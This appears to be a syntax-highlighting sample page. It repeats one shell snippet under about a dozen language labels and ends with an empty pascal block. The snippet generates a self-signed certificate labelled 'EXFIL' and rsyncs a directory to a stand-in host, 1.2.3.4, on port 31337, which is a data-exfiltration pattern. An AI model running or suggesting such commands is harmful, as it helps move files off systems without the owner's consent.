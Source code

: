 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
lisp
```lisp
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
livescript
```livescript
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
lsl
```lsl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
lua
```lua
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
makefile
```makefile
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
markdown
```markdown
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
mask
```mask
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
matlab
```matlab
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
nix
```nix
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
nunjucks
```nunjucks
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
objectivec
```objectivec
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ocaml
```ocaml
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
pascal
```pascal
```